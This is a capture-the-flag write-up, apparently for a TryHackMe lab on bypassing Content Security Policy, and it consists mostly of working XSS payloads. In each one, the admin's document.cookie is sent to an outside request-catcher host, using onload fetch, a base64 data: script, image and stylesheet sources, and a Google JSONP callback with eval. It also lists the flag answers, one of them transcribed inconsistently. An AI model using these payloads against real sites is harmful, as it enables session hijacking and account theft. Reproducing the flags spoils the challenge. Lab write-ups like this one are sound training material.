 To deploy the machine, go to the CSP Sandbox task.

Attack challenges require you to bypass the CSP header sent by the webpage and exfiltrate the administrator's cookies. For methods on how you can achieve this, refer to the Bypassing CSP task of this room.

For verification, all challenges are accessed by a bot locally (localhost).

1. Flag for attack-1

```html
<BODY ONLOAD=fetch(`https://stroke.free.beeceptor.com/${document.cookie}`)>
```

`GET /flag=THM%7BTh4t_W4s_Pr3tty_3asy%7D`

`THM{Th4t_W4s_Pr3tty_3asy}`

2. Flag for attack-2

```
kali@kali:~/CTFs/tryhackme/Content Security Policy$ echo -n 'fetch(`https://stroke.free.beeceptor.com/${document.cookie}`)' | base64

ZmV0Y2goYGh0dHBzOi8vc3Ryb2tlLmZyZWUuYmVlY2VwdG9yLmNvbS8ke2RvY3VtZW50LmNvb2tpZX1gKQ==
```

```html
<script src="data:;base64,ZmV0Y2goYGh0dHBzOi8vc3Ryb2tlLmZyZWUuYmVlY2VwdG9yLmNvbS8ke2RvY3VtZW50LmNvb2tpZX1gKQ=="></script>
```

`GET /flag=THM%7BUs1ng_data:_1snt_Any_S4fer%7D`

`THM{BUs1ng_data:_1snt_Any_S4fer}`

3. Flag for attack-3

```html
<IMG id="randomcspsmith" SRC="">
<script>document.getElementById('randomcspsmith').src="https://stroke.free.beeceptor.com/" + document.cookie;</script>
```

`GET /flag=THM%7BTh4ts_N0t_4n_1m4ge!!%7D`

`THM{Th4ts_N0t_4n_1m4ge!!}`

4. Flag for attack-4

```html
<link id="randomcspsmith" rel=stylesheet href="" /><script nonce="abcdef">document.getElementById('randomcspsmith').href="https://stroke.free.beeceptor.com/" + document.cookie;</script>
```

`GET /flag=THM%7BStyle_Y0ur_W3bs1teS%7D`

`THM{Style_Y0ur_W3bs1teS}`

5. Flag for attack-5

```html
<script src="//accounts.google.com/o/oauth2/revoke?callback=eval(document.location='https://stroke.free.beeceptor.com/'.concat(document.cookie))"></script>
```
